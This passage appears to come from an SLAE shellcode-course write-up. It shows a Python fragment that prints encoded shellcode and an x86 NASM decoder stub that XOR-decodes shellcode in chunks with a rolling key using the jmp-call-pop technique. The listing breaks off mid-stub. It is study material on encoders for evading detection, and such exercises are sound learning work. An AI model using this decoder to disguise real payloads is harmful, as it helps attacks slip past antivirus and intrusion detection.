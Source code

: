 ```python
print 'Shellcode in compatible c format:'
print current_segment_encoded
print current_segment_encoded2

print 'Generating assembly for decoder'
print 'Len: %d' % len(bytearray(shellcode))
```

## Decoder stub

here follows the assembler code of the decoder stub

```
; Filename: Decoder.nasm
; Author:  SLAE-935
;
; Purpose: decode bytecode in chunks of 8 bytes preserving the status

global _start			

section .text

_start:

    mov ebx, 0xfdb6e7fb ; initial encrypt key
    push ebx
    xor edx,edx ; i = 0
    push edx
    pop edx ; begin for loop
    pop ebx
    jmp short call_get_pc ; getPC
get_pc:
    pop edi ; edi=buff addr
    xor ecx,ecx
    cmp edx,ecx
copy_init:
    jz decode_init ; skip copy if i==0
    xor ecx,ecx
    mov cl, 0xc ; words to copy
    push ebx
    push edx
    mov esi,edx
    imul esi,ecx
    shl esi,0x2
    add esi,edi ; esi=edi+(i*ecx*4)
copy_loop:
    mov ebx,ecx ; copy loop
    sub bl,0x1
    shl ebx,0x2 ; ebx=(ecx-1)*4
    mov edx,[esi+ebx] ; tmp=src
    mov [edi+ebx],edx ; dst=tmp
    loop copy_loop
    pop edx ; edx=i
    pop ebx ; ebx=key
decode_init:
    xor ecx, ecx
    mov cl, 0xc ; words to decode
decode_loop:
    xor [ edi + ecx * 4 - 0x4 ], ebx ; decode loop
    loop decode_loop
    add ebx, [ edi ] ; modify key
    push ebx ; store for next loop
    inc edx ; i++
```